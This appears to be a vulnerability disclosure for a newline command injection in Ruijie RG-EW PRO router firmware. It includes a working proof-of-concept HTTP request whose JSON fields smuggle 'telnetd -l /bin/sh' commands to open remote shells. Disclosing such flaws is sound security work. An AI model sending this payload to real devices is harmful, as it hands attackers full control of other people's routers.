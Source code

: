# Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com "https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

RG-EW1200G PRO Wireless Routers

RG-EW1800GX PRO Wireless Routers

RG-EW3200GX PRO Wireless Routers

**Affected firmware version:**

EW_3.0(1)B11P204 (the latest release version)

**Firmware download address:**   

[RG-EW1200G PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77453 "https://www.ruijienetworks.com/support/documents/slide_77453")

[RG-EW1800GX PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77455 "https://www.ruijienetworks.com/support/documents/slide_77455")

[RG-EW3200GX PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77457 "https://www.ruijienetworks.com/support/documents/slide_77457")

# Overview

`Ruijie Networks RG-EW PRO Series Wireless Routers EW_3.0(1)B11P204` was discovered to contain a `command injection vulnerability` via the `data.ip`, `data.protocal`, `data.iface` and `data.package` parameters in the `runPackDiagnose` function of `diagnose.lua`. Successful exploit could allow an authorized attacker to execute arbitrary commands on remote devices.

# Vulnerability details

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/diagnose.lua`.**

It is easy to see that all four fields `data.ip`, `data.protocal`, `data.iface` and `data.package` will eventually be concatenated into the `_shell` variable by the `%s` formatting string and executed as arguments to the `doShell` function.

![](./pic/3.png)

In the file `/usr/lib/lua/luci/utils/tool.lua`. Notice that in the `doShell` function, some dangerous characters are filtered before the command is executed. However, **the command delimiter `\n` is not filtered**.

![](./pic/4.png)

Therefore, we can use `\n` as the command separator, inject malicious commands into the `data.ip`, `data.protocal`, `data.iface` and `data.package` fields, and execute them (In `JSON` data, `\n` will be converted to the `Unicode` encode `\u000a`, so it's also okay to use `\u000a` as the separator).

# Poc

Send the following request message. 

```
POST /cgi-bin/luci/api/diagnose?auth=xxx HTTP/1.1
Host: 192.168.110.1
Content-Length: 218
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-type: application/json
Accept: */*
Origin: http://192.168.110.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __APP_LANG__=zh_cn
Connection: close

{"method":"runPackDiagnose","params":{"ip":"\ntelnetd -l /bin/sh -p 1111\n","protocal":"\ntelnetd -l /bin/sh -p 2222\n","iface":"\ntelnetd -l /bin/sh -p 3333\n","package":"\ntelnetd -l /bin/sh -p 4444\n","size":"666"}}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`.

![](./pic/1.png)

Then, the attacker can log in to the remote device directly through `telnet` and control it entirely (remote login through port `2222`, `3333` or `4444` is also available).

![](./pic/2.png)
